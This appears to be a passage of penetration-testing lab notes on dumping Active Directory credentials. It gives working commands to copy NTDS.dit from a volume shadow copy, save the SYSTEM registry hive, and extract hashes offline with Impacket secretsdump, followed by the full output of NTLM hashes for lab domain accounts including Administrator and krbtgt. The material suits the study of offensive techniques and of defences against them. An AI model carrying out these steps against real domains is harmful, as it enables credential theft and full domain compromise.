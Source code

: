 **Critical Information:**
- **Shadow Copy Device Name:** \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
- **Snapshot ID:** Unique identifier for the shadow copy
- **Creation Time:** Timestamp for forensic analysis
- **Provider ID:** VSS provider information

### NTDS.dit Database Extraction

**Copy NTDS.dit from Shadow Copy:**
```cmd
# Extract AD database from shadow copy
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

**Extract SYSTEM Registry Hive:**
```cmd
# Save SYSTEM hive for decryption keys
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```

**Required Files for Offline Analysis:**
- **ntds.dit.bak:** Active Directory database containing credentials
- **system.bak:** SYSTEM registry hive containing decryption keys
- **File Transfer:** Both files must be transferred to analysis system

### Offline Credential Extraction

**Impacket secretsdump Analysis:**
```bash
# Extract credentials using Impacket secretsdump
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

**Credential Extraction Output:**
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:87db4a6147afa7bdb46d1ab2478ffe9e:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:d75ffc4baaeb9ed40f7aa12d1f57f6f4:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:5eca857673356d26a98e2466a0fb1c65:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:b57715dcb5b529f212a9a4effd03aaf6:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:6f93b1d8bbbe2da617be00961f90349e:::
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname